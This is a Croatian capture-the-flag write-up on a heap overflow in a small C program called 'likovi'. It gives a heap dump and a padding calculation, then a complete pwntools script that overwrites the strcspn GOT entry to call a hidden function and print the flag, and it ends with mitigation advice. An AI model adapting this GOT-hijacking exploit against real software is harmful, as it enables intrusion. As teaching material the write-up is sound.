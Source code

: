 # Writeup

## Otkrivanje ranjivosti



Detaljnom analizom izvornog koda programa, uočena je potencijalna ranjivost programa **heap overflow** kod uređivanja opisa postojećeg lika.

```
printf("Novi opis (ostavi prazno za ostavljanje starog):\n");
char privOpis[500];
strcpy(privOpis, likovi[index]->opis);
fgets(likovi[index]->opis, 600, stdin);
likovi[index]->opis[strcspn(likovi[index]->opis, "\n")] = '\0';
if(strlen(likovi[index]->opis) == 0){
	strcpy(likovi[index]->opis, privOpis);	
}
```

U programu je za opis pojedinog lika rezervirano polje od 500 bajtova, a pomoću funkcije fgets se na rezervirano polje zapisuje maksimalno 600 bajta.

Pomoću programa ```checksec``` mogu se provjeriti zaštite kompajliranog programa.
```
└─$ checksec --file=likovi
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   56 Symbols        No    0               3               likovi
```
Iz rezultata postojećih zaštita se može vidjeti da kompajlirani program ne sadrži PIE zaštitu.


## Objašnjenje ranjivosti

Već je u prošlom zadatku objašnjen PIE pa se ovdje smatra da se razumije.

Kako bi se bolje razumjela ranjivost **heap overflow**, može se pogledati sadržaj heap-a u programu pomoću programa ```gdb``` u kombinaciji s ```pwndbg```. Za vizualni prikaz heap-a koristi se naredba ```vis```:


```
pwndbg> vis

...

0x405290        0x0000000000000000      0x0000000000000021      ........!.......
0x4052a0        0x00000000004052c0      0x0000000000405300      .R@......S@.....
0x4052b0        0x0000000000000000      0x0000000000000041      ........A.......
0x4052c0        0x0000006a6f726548      0x0000000000000000      Heroj...........
0x4052d0        0x0000000000000000      0x0000000000000000      ................
0x4052e0        0x0000000000000000      0x0000000000000000      ................
0x4052f0        0x0000000000000000      0x0000000000000201      ................
0x405300        0x69206e617a616e53      0x2072616261726820      Snazan i hrabar 
0x405310        0x002e6b696e746172      0x0000000000000000      ratnik..........
0x405320        0x0000000000000000      0x0000000000000000      ................

...

0x4054f0        0x0000000000000000      0x0000000000000021      ........!.......
0x405500        0x0000000000405520      0x0000000000405560       U@.....`U@.....
0x405510        0x0000000000000000      0x0000000000000041      ........A.......
0x405520        0x6361766f6b696c5a      0x0000000000000000      Zlikovac........
0x405530        0x0000000000000000      0x0000000000000000      ................
0x405540        0x0000000000000000      0x0000000000000000      ................
0x405550        0x0000000000000000      0x0000000000000201      ................
0x405560        0x696c6b756d646f50      0x76616b756c206920      Podmukli i lukav
0x405570        0x6e626f7261632069      0x000000002e6b616a      i carobnjak.....
0x405580        0x0000000000000000      0x0000000000000000      ................
0x405590        0x0000000000000000      0x0000000000000000      ................

...
```


Ovdje se može vidjeti kako se na heap-u nalaze podaci o dva lika: Heroj i Zlikovac.
Njihovi chunck-ovi započinju sa ```0x0000000000000021```. Nakon toga slijede dvije adrese koje također pokazuju na heap. Zo su adresa sadržaja imena lika i adresa sadržaja opisa lika.
Ispod tih adresa nalazi se stvarni sadržaj imena i opisa lika. Ime je veliko 50 bajtova, a opis 500 bajtova. 
Vidi se da se podaci za oba lika nalaze jedan pored drugog.
Budući da se na adresu opisa lika upisuje 600 bajtova (to je više nego rezervirana veličina), može se manipulirati sadržajem koji se nalazi izvan opisa lika. Ovdje je važno da nakon opisa prvog lika slijedi chunk za drugog lika.

 
Ovdje se može iskoristiti napad ```GOT hijacking``` kako bi se preusmjerilo izvršavanje programa na funkciju ```ispisiTajnuPoruku```.
GOT (Global Offset Table) je tablica u memoriji koja pohranjuje adrese vanjskih funkcija i varijabli koje se dinamički povezuju tijekom izvršavanja programa.
Ideja je da se uredi jedan zapis funkcije koja se poziva pomoću GOT tablice tako da pokazuje na funkciju ```ispisiTajnuPoruku```. Prva vanjska funkcija koja se poziva je ```strcspn```.

Situacija u kojoj se može iskoristiti napad je sljedeća:
 - Prvo se uređuje opis prvog lika (Heroj) na način da se u njega upiše: padding do drugog chunka + informacije o chunku (ostaju iste) + adresa funkcije ```strcspn``` iz GOT tablice
 - Zatim se uređuje ime drugog lika (Zlikovac) na način da se u njega upiše adresa funkcije ```ispisiTajnuPoruku```.
 - programski poziv funkcije ```strcspn``` uzrokuje poziv funkcije ```ispisiTajnuPoruku```



Kako bi se izračunao potreban padding, treba se pogledati adresa na kojoj započinje opis prvog lika. 
```
0x405300        0x69206e617a616e53      0x2072616261726820      Snazan i hrabar 
```
Ona je ```0x405300```.


Zatim se treba odrediti na kojoj adresi započinje chunk drugog lika. 
```
0x4054f0        0x0000000000000000      0x0000000000000021      ........!.......
```
Ona je ```0x4054f8```.

Izračun paddinga:

```
0x4054f0 - 0x405300 = 1F0 = 496 (dec)
496 + 8 = 504
```

Potreban padding je 504 bajta.





## Iskorištenje ranjivosti


Za izradu rješenja može se napraviti Python skripta koja iskorištava heap overflow ranjivost u zadatku. 
Koraci programa:
 - Odabire se opcija za uređivanja likova (4)
 - Odabire se prvi lik (1)
 - Unosi se novi opis lika koji uređuje sadržaj podataka drugog lika i s time omogućuje uređivanje GOT tablice
 - Ponovi se odabir opcije uređivanja likova (4)
 - Odabire se drugi lik (2)
 - Unosi se novi naziv lika koji je adresa funkcije ```ispisiTajnuPoruku```.


```
from pwn import *

io = process("./likovi")
elf = ELF("./likovi")

# = = = START

# Part1

print(io.recvuntil(b"Odabir:"))
io.sendline(b"4")

print(io.recvuntil(b"Koji lik zelite urediti?:"))
io.sendline(b"1")

print(io.recvuntil(b"Novo ime (ostavi prazno za ostavljanje starog):"))
io.sendline(b"")

print(io.recvuntil(b"Novi opis (ostavi prazno za ostavljanje starog):"))


payload = b""

padding = b"A" * 504

chunk_info = p64(0x21)


strcspn = p64(elf.got["strcspn"])
print(f"Adresa strcspn = {elf.got["strcspn"]:#x}")

payload += padding + chunk_info + strcspn

io.sendline(payload)
print(payload)

# Part2

print(io.recvuntil(b"Odabir:"))
io.sendline(b"4")


print(io.recvuntil(b"Koji lik zelite urediti?:"))
io.sendline(b"2")


print(io.recvuntil(b"Novo ime (ostavi prazno za ostavljanje starog):"))


payload2 = b""

ispisiTajnuPoruku = p64(elf.sym["ispisiTajnuPoruku"])

payload2 += ispisiTajnuPoruku


io.sendline(payload2)
print(payload2)


# = = = END


io.interactive()

```

Pokretanjem ove skripte, ispiše se flag ```CTFFOI[H3AP_c0ntr0l1ng_G0T]```

## Edukativne smjernice
- Heap overflow je napad kod kojeg se unos veći od rezerviranog memorijskog prostora na heapu (buffera) upisuje izvan granica buffera i može prebrisati podatke u susjednim chunk-ovima.
- Za zaštitu od ove ranjivosti preporučuje se:
    - Provjeriti i ograničiti duljinu korisničkog unosa
    - Koristiti sigurnije funkcije za kopiranje niza: ```strncpy``` i ```memcpy_s```. One imaju točno definirane veličine za kopiranje.
    - Uključiti heap canary zaštitu (gcc ... -fsanitize=address) kako bi se pri pisanju izvan granica buffera detektiralo prepisivanje i odmah zaustavilo izvođenje programa.
    - Aktivirati ASLR/PIE kako bi adrese na heap-u bile nasumične i teže predvidljive.
